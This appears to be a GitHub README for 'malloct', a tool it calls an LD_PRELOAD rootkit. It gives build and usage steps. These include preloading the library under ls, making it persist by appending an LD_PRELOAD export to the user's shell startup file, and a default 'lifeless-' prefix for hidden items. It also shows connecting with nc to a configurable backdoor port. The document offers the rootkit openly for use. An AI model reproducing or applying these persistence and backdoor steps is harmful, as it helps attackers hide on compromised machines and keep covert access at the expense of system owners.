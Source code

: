 # malloct
LD_PRELOAD rootkit

# make
$ make

# usage
**make your own configuration in src/config.h**

$ LD_PRELOAD=./libmalloct.so ls -aphl /home/$USER/

$ LD_PRELOAD=./libmalloct.so ls -hl /tmp/*

$ export LD_PRELOAD=/tmp/libmalloct.so

$ echo "export LD_PRELOAD=/tmp/libmalloct.so" >> /home/$USER/.kshrc

> set to which shell you are using

> you can set to the program you will use 

# note
**is a core LD_PRELOAD rootkit**

**default prefix is lifeless-**

# nc
**you can set custom port in src/config.h**

nc -vn 127.0.0.1 1337

# example
![image](https://github.com/user-attachments/assets/67132173-bd65-4e18-a991-8664cd155849)
